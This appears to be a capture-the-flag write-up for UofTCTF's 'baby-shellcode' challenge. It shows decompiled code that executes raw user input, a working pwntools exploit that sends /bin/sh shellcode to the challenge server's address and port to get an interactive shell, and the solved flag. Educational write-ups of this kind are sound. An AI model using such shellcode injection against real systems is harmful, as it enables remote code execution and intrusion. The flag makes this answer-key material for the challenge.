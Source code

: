 # baby-shellcode

## Description

This challenge is a test to see if you know how to write programs that machines can understand.

Oh, you know how to code?

Write some code into this program, and the program will run it for you.

What programming language, you ask? Well... I said it's the language that machines can understand.

Author: drec

nc 34.28.147.7 5000

## Approach

### Decompiled code
```
void processEntry entry(void)

{
  undefined auStack_400 [1024];
  
  syscall();
                    /* WARNING: Could not recover jumptable at 0x0040101b. Too many branches */
                    /* WARNING: Treating indirect jump as call */
  (*(code *)auStack_400)(0,auStack_400,0x400);
  return;
}
```

Looking at the decompiled code, it is basically taking the user input and then executing it using syscall. So we can pop a shell by crafting an assembly instruction to call `/bin/sh`. Thankfully pwntools already has a shell template ready for us.

## Exploit
```
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './baby-shellcode'
elf = context.binary = ELF(exe, checksec=False)
libc = '/usr/lib/libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
host, port = '34.28.147.7', 5000

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
def exploit():
    global io
    io = initialize()
    rop = ROP(exe)

    payload = flat(
        asm(shellcraft.sh())
    )
    
    io.sendline(payload)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```

## Flag
```
uoftctf{arbitrary_machine_code_execution}
```